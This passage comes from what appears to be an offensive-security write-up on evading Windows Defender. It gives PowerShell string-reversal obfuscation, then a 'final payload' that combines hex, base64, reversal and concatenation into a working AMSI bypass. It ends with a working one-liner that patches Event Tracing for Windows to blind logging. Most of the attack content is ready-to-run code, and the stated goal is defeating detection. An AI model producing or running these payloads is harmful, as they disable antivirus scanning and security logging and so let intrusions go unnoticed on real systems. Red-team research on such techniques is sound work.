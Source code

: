 ![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/e6246d82-274e-4793-bdf7-11c3a90aaa0d)


### <span style="color:pink">Reverse String</span>

The last technique is by reversing the string for obfuscating the payload.
```powershell
# Encoding Payload
PS:\> (([regex]::Matches("testing payload",'.','RightToLeft') | foreach {$_.value}) -join '')

# Decoding Payload
PS:\> (([regex]::Matches("daolyap gnitset",'.','RightToLeft') | foreach {$_.value}) -join '')
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/bd5caded-ebae-4f29-a8fa-31eb49e8bed1)

## <span style="color:lightgreen">Final Payload - 2</span>

We can also combine these techniques to create a more powerful and effective payload that can evade detection by Windows Defender. Using a combination of Base64 Encoding, Hex Encoding, Reversing The String, and Concatenation, we can create a highly obfuscated payload to bypass Windows Defender.

```powershell
PS:\> $w = 'System.Manag';$r = '65 6d 65 6e 74 2e 41 75 74 6f 6d 61 74 69 6f 6e 2e'.Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$s=$s+$_};$c = 'Amsi'+'Utils';$assembly = [Ref].Assembly.GetType(('{0}{1}{2}' -f $w,$s,$c));$n = $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('YQBtAA==')));$b = 'siIn';$k = (([regex]::Matches("deliaFti",'.','RightToLeft') | foreach {$_.value}) -join '');$field = $assembly.GetField(('{0}{1}{2}' -f $n,$b,$k),'NonPublic,Static');$field.SetValue($null,$true)
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/d45a6949-de22-458f-b69e-2ced47026585)


# <span style="color:lightblue">Patching Event Tracing for Windows</span>

Event Tracing for Windows (ETW) is a powerful logging and tracing mechanism in the Windows operating system that allows developers, administrators, and analysts to monitor and diagnose system events in real time. It collects and analyses diagnostic and performance data from applications and services running on Windows. ETW records events generated by the operating system and applications, including information on processes, threads, disk I/O, network activity, and more.

By disabling or manipulating ETW, attackers can prevent security tools from logging their actions or tracking their movement within a system.

> Original Payload to patch ETW
```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```
